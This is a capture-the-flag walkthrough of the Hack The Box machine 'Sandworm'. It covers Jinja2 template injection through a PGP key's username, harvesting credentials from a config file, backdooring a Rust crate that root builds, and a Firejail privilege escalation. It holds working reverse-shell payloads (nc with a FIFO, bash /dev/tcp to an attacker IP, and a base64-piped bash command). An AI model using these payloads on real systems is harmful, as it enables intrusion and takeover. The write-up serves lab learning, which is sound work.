

# PORT SCAN

* **22** [ssh]
* **80** [tcp] &#8594; redirect to ssa.htb (port 443)
* **443** [ssl/http] &#8594; Secret Spy Agency | Secret Security Service


<br><br>

# ENUMARATION AND FOOTHOLD



The machine site is a simulation of a intelligence organization that make **SIGINT** a intelligence type based on electronic signals and systems (ex :/ comunication systems and radar)

With directory busting I've discovered a login page at **/login**,**/view** and **/admin**


We have the mainpage, an about page and **contact** where we can send PGP encrypted text


Connected to the **/contact** page we have the guide providing a PGP Encryption Demonstration and in the bottom page we have a demonstration text and a (potential) username **<u>atlas</u>**


Obviously we need to import their PGP public key and try to verify the example message provided to us. We know they are using **GNUPGP** (pretty obvious is the most popular but good thing to check it) and are made with **RSA algorithm**


<br>

I've try to verify a costum key and see if a OS injection is possible somehow


Let's create a message with a gpg signature


And display the pubblic key


Than copy the sined text and pubblic key on the apposite 2 section and press **"Verify Signature"**


Note that the username is displayed on the output box and can be the entry point for a **OS injection vulnerability** let's try with a simple `; whoami #` as username for a brand new pgp key. If we the luck is with use the usranem displayed will be the one of the user who is running the PGP signature verification 

Now same procedue as before and check the displayed box


This time I was unlucky :( but we can actually inject a string in the serverside simple but is something!

We need something more sophisticated than a simple OS injection, one technique is [Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) (SSTI).

In short an attacker can use ntive template syntax in order to inject malicious code that will be executed by the server.

[Here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) you can find some examples 

The template is something which create dynamic part (based on parameter) of a website in our case the textbox after we verify the signature (the website is based on flask which have the option to use a template engine)

First we need to make some fuzzing and detect if this vulnerability is present or not on this sites (we already know where actually),
Hacktricks suggest us to use this payload `{{7*7}}` (there are more obv) a name of a GPG KEY and verify the signature


Another cool guide is [this one](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) which offer some fuzzing payload to inject tot est if we can make some OS injection using SSTI

Let's try to inject a **id** command using `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}` as payload

This time it worked! 


Cool we can inject some OS code this means...**REVERSE SHELL**, the guide above offers some payload for this purpose and I will use this one 

`{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc [IP] [PORT] 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}`

This one will not work maybe tere are some filter which can be bypassed with a base64 payload like this one

`('os').popen('echo [BASE64_STRING] | base64 -d | bash').read() }}`

After concluding the verify procedure we got a shell


<br><br>

# PRIVILEGE ESCALATION #1
We are logged in as **atlas** and there is no flag in his home folder but we have another user inside called **silentobserver**


Inside the path `/home/atlas/.config` we have a weird file


[Firejail](https://firejail.wordpress.com/) is a sandbox program which restrict the running enviroment to mitigate the consequence of a security breach. That's why some commands like `which` doesn't work for this user

The other file inside the **atlas home folder** is [HTTPIE](https://github.com/httpie/httpie) directory. Maybe inside we can find some information or hardcoded credentials.

Gottch'a we got the credential for the **silentobserver** user now we can make the login through ssh and take the user flag


<br><br>

# PRIVILEGE ESCALATION #2
Tried with the usual run of **linpeas** but nothing usefull. With **pspy64** we maybe have something


Here the ROOT user run 2 tools **cargo** and **tipnet** :
* **CARGO** = is the rust packet manager like <u>pip</u> in python, in this exercise is just building and running the input project in "offline" mode (mo download or update attempt)
* **TIPNET** = Costum rust code the source file is inside the file located at `/opt/tipnet/src/main.rs` and run with the **e** flag so we can see what happen when this snippet of bash code is called

Inside the **TIPNET** main code file we can see a external library used


I can't find where is located but looking at the first screenshot of this section I've noted that the root user clean the `/opt/crates` folder so probably is located there...BINGO!


We can modify this piece of code but the command is run with `sudo -u atlas` so we have atlas low privilege.....wait a second

If we make this code for a reverse shell with rust

```rust
use std::process::Command;

    let command = "bash -i >& /dev/tcp/10.10.14.183/1234 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("works!");

    if output.status.success() {
        println!("pwn");
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("gg: {}", stderr);
    }
```


we will get a reverse shell with **atlas** but outside the <u>firejail</u> and with th same ID of current user plus a different group membership called **<u>jailer</u>**


Maybe I get why the machine is called **sandworm** we have started down from the firejail than we go up with the current user and at last we return back with atlas(?). Idk if this is the motivation the creator cme out when choosing a name for this machine but I like to think it this way

Set the above code snippet inside the `lib.rs` file and wait until the reveese shell pop out

Let's what we can do with this new user, I've started with `find / -perm 400 2>/dev/null` so I can easly find SUID binary that can be run by the user **atlas** and I find it. Again we have to deal with **<u>firejail</u>** (pretty fun that something have to mitigate security breach is actually being the support to expand it lol)


I've found 2 exploit online ([python](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) and [C](https://www.exploit-db.com/exploits/41022))  but no CVE has been assigned to this (idk why actually) I pick the pyton one

For a smoother execution of the exploit I saved the `id_rsa.pub` key in the `authorized_keys` of atlas so I can access through ssh whenever I need

Now in the first teminal go and run the exploit


The rest is pretty obvious go in another ssh session and execute the first **firejail** command and than `su -` (`sudo su -` will not work because atlas is not in sudoers) to gain root!


